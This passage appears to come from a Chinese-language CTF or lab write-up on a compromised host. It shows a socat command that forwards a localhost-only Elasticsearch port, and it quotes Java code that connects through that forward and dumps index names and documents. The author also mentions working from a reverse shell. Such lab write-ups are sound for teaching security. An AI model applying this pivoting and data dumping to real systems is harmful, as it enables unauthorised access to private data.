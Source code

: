 可以注意到`9200`和`9300`端口开放，他们主要是`ElasticSearch`服务使用的端口

由于绑定的是`127.0.0.1`这里使用代理也无法访问，需要在本地进行一次端口转发

```
socat tcp-listen:9999,reuseaddr,fork tcp:localhost:9300 &
```

然后我就无法正常`Curl`通那几个端口了，即使在反弹`Shell`里也无法连接，也不知道为什么？

![](./images/image-133.png)

我这里就引用一下别人的Poc吧

```
import java.net.InetSocketAddress;
import java.net.InetAddress;
import java.util.Map;
import org.elasticsearch.action.admin.indices.exists.indices.IndicesExistsResponse;
import org.elasticsearch.action.admin.cluster.health.ClusterHealthResponse;
import org.elasticsearch.action.admin.indices.get.GetIndexResponse;
import org.elasticsearch.action.admin.indices.get.GetIndexRequest;
import org.elasticsearch.transport.client.PreBuiltTransportClient;
import org.elasticsearch.cluster.health.ClusterIndexHealth;
import org.elasticsearch.common.transport.TransportAddress;
import org.elasticsearch.client.transport.TransportClient;
import org.elasticsearch.action.search.SearchResponse;
import org.elasticsearch.client.IndicesAdminClient;
import org.elasticsearch.common.settings.Settings;
import org.elasticsearch.search.SearchHit;
import org.elasticsearch.client.Client;

public class Program {
    public static void main(String[] args) {
        byte[] ipAddr = new byte[]{10, 13, 37, 10};
        Client client = new PreBuiltTransportClient(Settings.EMPTY)
            .addTransportAddress(new TransportAddress(new InetSocketAddress("10.13.37.10", 9999)));
        System.out.println(client.toString());
        ClusterHealthResponse healths = client.admin().cluster().prepareHealth().get();
        for (ClusterIndexHealth health : healths.getIndices().values()) {
            String index = health.getIndex();
            System.out.println(index);
        }
        SearchResponse searchResponse = client.prepareSearch("test").execute().actionGet();
        SearchHit[] results = searchResponse.getHits().getHits();
        for(SearchHit hit : results){
            String sourceAsString = hit.getSourceAsString();
            System.out.println(sourceAsString);
        }
        client.close();
    }
}
```
